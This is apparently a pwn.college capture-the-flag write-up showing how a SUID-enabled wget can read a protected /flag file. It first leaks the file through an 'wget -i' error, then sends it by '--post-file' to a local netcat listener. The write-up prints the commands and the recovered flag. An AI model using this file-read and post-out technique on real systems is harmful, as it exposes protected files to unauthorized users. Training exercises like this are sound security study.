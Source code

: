`wget` is a command-line utility in Linux used for downloading files from the web. `wget` stands for `web get`.

`wget` is designed for robustness over slow and unstable network connections.

This problem is a little bit hard. I mean you have to some prior knowledge about `netcat`. `port listening, local host` stuff

If you read the `man wget` you will find an option `-i file --input-file=file : Read URLs from a local or external file`

```bash
hacker@program-misuse-level-50:~$ /challenge/babysuid_level50 
Welcome to /challenge/babysuid_level50!

This challenge is part of a series of programs that
just straight up weren not designed to let you read files.

I just set the SUID bit on /usr/bin/wget.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level50) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/wget!
hacker@program-misuse-level-50:~$ ls
Desktop  demo  test  test.c
hacker@program-misuse-level-50:~$ wget -i /flag
--2024-01-03 19:03:06--  http://pwn.college%7Bc3z_9dnhqsrtofc_udzckj_b7em.0lm5edl0ajnzqzw%7D/
Resolving pwn.college{c3z_9dnhqsrtofc_udzckj_b7em.0lm5edl0ajnzqzw} (pwn.college{c3z_9dnhqsrtofc_udzckj_b7em.0lm5edl0ajnzqzw})... failed: Name or service not known.
wget: unable to resolve host address 'pwn.college{c3z_9dnhqsrtofc_udzckj_b7em.0lm5edl0ajnzqzw}'
```

`-i` will take the contents of the `flag` file as a `URL` but when it sees that the `URL` is not valid, it shows an error saying that `pwn.college{c3z_9dnhqsrtofc_udzckj_b7em.0lm5edl0ajnzqzw}` `name or service not known`. Hence we get the flag.

But NO! the flag is showing `incorrect` . I think we messed up the string somewhere. Looks like all of the letter became lower-case.

```bash
hacker@program-misuse-level-50:~$ /challenge/babysuid_level50 
Welcome to /challenge/babysuid_level50!

This challenge is part of a series of programs that
just straight up were not designed to let you read files.

I just set the SUID bit on /usr/bin/wget.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level50) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/wget!
hacker@program-misuse-level-50:~$ wget -i /flag
--2024-01-03 20:34:23--  http://pwn.college%7Bc3z_9dnhqsrtofc_udzckj_b7em.0lm5edl0ajnzqzw%7D/
Resolving pwn.college{c3z_9dnhqsrtofc_udzckj_b7em.0lm5edl0ajnzqzw} (pwn.college{c3z_9dnhqsrtofc_udzckj_b7em.0lm5edl0ajnzqzw})... failed: Name or service not known.
wget: unable to resolve host address 'pwn.college{c3z_9dnhqsrtofc_udzckj_b7em.0lm5edl0ajnzqzw}'
hacker@program-misuse-level-50:~$ wget --help | grep FILE
  -o,  --output-file=FILE          log messages to FILE
  -a,  --append-output=FILE        append messages to FILE
  -i,  --input-file=FILE           download URLs found in local or external FILE
       --config=FILE               specify config file to use
       --rejected-log=FILE         log reasons for URL rejection to FILE
  -O,  --output-document=FILE      write documents to FILE
       --load-cookies=FILE         load cookies from FILE before session
       --save-cookies=FILE         save cookies to FILE after session
       --post-file=FILE            use the POST method; send contents of FILE
       --body-file=FILE            send contents of FILE. --method MUST be set
       --certificate=FILE          client certificate file
       --private-key=FILE          private key file
       --ca-certificate=FILE       file with the bundle of CAs
       --crl-file=FILE             file with bundle of CRLs
       --pinnedpubkey=FILE/HASHES  Public key (PEM/DER) file, or any number
       --random-file=FILE          file with random data for seeding the SSL PRNG
       --warc-file=FILENAME        save request/response data to a .warc.gz file
       --warc-dedup=FILENAME       do not store records listed in this CDX file
hacker@program-misuse-level-50:~$ wget --load-cookies=/flag http://localhost:4242
--2024-01-03 20:37:53--  http://localhost:4242/
Resolving localhost (localhost)... 127.0.0.1, ::1
Connecting to localhost (localhost)|127.0.0.1|:4242... connected.
HTTP request sent, awaiting response... ^C
hacker@program-misuse-level-50:~$ wget --post-file=/flag http://localhost
--2024-01-03 20:39:38--  http://localhost/
Resolving localhost (localhost)... 127.0.0.1, ::1
Connecting to localhost (localhost)|127.0.0.1|:80... connected.
HTTP request sent, awaiting response...
```

```bash
hacker@program-misuse-level-50:~$ nc -lp 4242
GET / HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: localhost:4242
Connection: Keep-Alive

hacker@program-misuse-level-50:~$ nc -lp 80
POST / HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: localhost
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 57

pwn.college{c3Z_9dNhqSrTofc_UdzcKj_B7Em.0lM5EDL0AjNzQzW}

```
